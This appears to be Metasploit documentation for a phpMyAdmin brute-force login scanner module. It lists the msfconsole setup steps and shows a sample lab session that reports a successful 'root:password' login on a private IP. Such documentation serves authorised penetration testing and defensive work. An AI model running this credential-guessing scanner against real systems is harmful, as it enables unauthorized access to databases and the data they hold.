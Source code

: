
## Vulnerable Application

  This module is a brute-force login scanner for PhpMyAdmin 

## Verification Steps

  1. Start msfconsole
  2. Do: ```use [auxiliary/scanner/http/phpmyadmin_login]```
  3. Do: ```set RHOSTS [IP]```
  4. Do: ```set TARGETURI [URI]```
  5. Do: ```set PASSWORD [PASSWORD]```
  6. Do: ```run```
  7. You should get a successful login status

## Scenarios

### Tested on PhpMyAdmin Versions 4.0.10.20, 4.5.0, 4.8.1, 4.8.2, 5.0

  ```
  msf > use auxiliary/scanner/http/phpmyadmin_login
  msf auxiliary(scanner/http/phpmyadmin_login) > set rhosts 192.168.37.151
  rhosts => 192.168.37.151
  msf auxiliary(scanner/http/phpmyadmin_login) > set targeturi phpmyadmin-4.8.2/index.php
  targeturi => phpmyadmin-4.8.2/index.php
  msf auxiliary(scanner/http/phpmyadmin_login) > set password password
  password => password
  msf auxiliary(scanner/http/phpmyadmin_login) > run

  [*] PhpMyAdmin Version: 4.8.2
  [+] 192.168.37.151:80 - Success: 'root:password'
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  msf auxiliary(scanner/http/phpmyadmin_login) > 

  ```
